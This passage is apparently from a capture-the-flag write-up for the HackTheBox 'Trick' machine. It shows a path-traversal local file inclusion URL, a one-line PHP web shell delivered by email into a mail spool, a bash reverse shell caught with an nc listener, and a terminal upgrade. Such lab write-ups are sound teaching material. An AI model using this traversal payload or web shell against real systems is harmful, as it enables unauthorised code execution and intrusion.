 The email is there at `http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//var/mail/michael`:

![image-20221015064830865](https://0xdfimages.gitlab.io/img/image-20221015064830865.png)

#### Include PHP

Because the `page` parameter is being included with the `include` keyword, that means any PHP in it will be run. I’ll resend the email, this time with `--body '<?php system($_REQUEST["cmd"]); ?>"`.

Now I’ll add `&cmd=id` to the end of the URL and refresh:

![image-20221015065240733](https://0xdfimages.gitlab.io/img/image-20221015065240733.png)

That’s code execution!

It’s worth noting that `/var/mail/michael` seems to be cleared every two minutes. This makes sense both so that players don’t see each other’s exploits, and so that if someone puts bad PHP into that file, they don’t have to reset the box. Still, it can be a pain, and I’ll likely have to send the email many times.

#### Shell

I’ll update my payload to a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw). If I put this into Firefox, I only need to URL encode the `&` (or else it will read that as ending the parameter and starting a new one):

![image-20221015070227743](https://0xdfimages.gitlab.io/img/image-20221015070227743.png)

This hangs, but at my listening `nc`, there’s a shell as michael:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.166 48976
bash: cannot set terminal process group (721): Inappropriate ioctl for device
bash: no job control in this shell
michael@trick:/var/www/market$

```

I’ll upgrade it using the `script` / `stty` [technique](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

michael@trick:/var/www/market$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
michael@trick:/var/www/market$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo ;fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
michael@trick:/var/www/market$ 

```
